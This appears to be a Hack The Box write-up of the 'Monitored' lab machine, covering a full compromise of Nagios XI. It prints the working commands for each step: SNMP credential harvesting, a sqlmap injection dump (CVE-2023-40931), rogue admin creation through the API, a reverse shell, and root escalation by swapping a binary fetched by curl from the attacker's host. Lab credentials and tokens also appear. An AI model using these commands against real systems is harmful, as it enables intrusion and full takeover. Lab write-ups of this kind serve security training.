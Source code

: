 ```yaml
---
title: "Nagios Exploit leads to PWN"
date: 2024-04-25
---
```



##  Initial Scans
Ip = `10.10.11.248`

### Ports and Services
#### Open Ports
```
Open 10.10.11.248:22
Open 10.10.11.248:80
Open 10.10.11.248:389
Open 10.10.11.248:443
Open 10.10.11.248:5667
```

#### Service Enumeration
```
80/tcp   open  http       syn-ack Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       syn-ack OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   syn-ack Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth

```

#### Nuclei
Interesting finds
```shell
[open-redirect-generic] [http] [medium] http://nagios.monitored.htb/////evil.com [redirect="////evil.com"]
[CVE-2018-11784] [http] [medium] http://nagios.monitored.htb//interact.sh
```

Trying this?
https://github.com/ruthvikvegunta/nagiosxi_rce-to-root

Didn't work so lets try somehin else

First lets try another rustscan an


Snmpwalk
```
snmpwalk -v2c -c public nagios.monitored.htb
```
This gives me a lot of detail and is overloading. Lets use `grep`

```
snmpwalk -v2c -c public nagios.monitored.htb | grep Strings
```
##### Results
```
Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64"
iso.3.6.1.2.1.1.4.0 = STRING: "Me <root@monitored.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "monitored"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.3.11 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.2.2.1.2.1 = STRING: "lo"
iso.3.6.1.2.1.2.2.1.2.2 = STRING: "VMware VMXNET3 Ethernet Controller"

"postgres"

"mariadb"

"php"

"sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"

"-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"

"-c /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php >> /usr/local/nagiosxi/var/cmdsubsys.log 2>&1"
```

When we try to login we get `The specified user account has been disabled or does not exist.`
# SQLMap

Let's enumerate!
```
sqlmap -u "https://nagios.monitored.htb/"
```

Oh `[CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1').` Right...

I googled for about an hour an really only found this to be useful [Nagios XI Vulnerability: CVE-2023–40931 — SQL Injection in Banner](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567)
In this article we found that we could use the `POST /nagiosxi/admin/banner_message-ajaxhelper.php`
as our way to sqlmap nagios. We can now use the credentials we have found to get a token
```shell
curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
```
Token: `4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b`

Now lets retry SQLMap

```shell
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
```
From this we find a token and two password hashes.


Using the admin token we can create a new user with admin privileges
```shell
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=testuser&password=testuser&name=testuser&email=testuser@localhost&auth_level=admin"
```

It asks us to changes password, we do so. And we are in!

![[[Assets/Pasted image 20240425172659.png](https://kickeddroid.github.io/Assets/Pasted%20image%2020240425172659.png)]]

# Reverse Shell
using nagios admin priveleges we create a new service and add a custom command.

```
nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.248] 54244
bash: cannot set terminal process group (12715): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ ls
ls
cookie.txt
user.txt
nagios@monitored:~$ cat user.txt
cat user.txt
00e6ec0baf23d4e12f08b43309b8d692
nagios@monitored:~$ 
```

# Priv Esc

The classic `sudo -l`
```
sudo -l
```

We see some interesting stuff mainly 
```
/usr/local/nagiosxi/scripts/manage_services.sh
/usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php

```

```
cat /usr/local/nagiosxi/scripts/manage_services.sh
```

```
cd /usr/local/nagios/bin/

rm npcd
```


```
curl -O http://10.10.14.2:8000/npcd
```

```
chmod +x /usr/local/nagios/bin/npcd
```

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

```
fb032368ebeba0e8369df5131f2fbf74
```
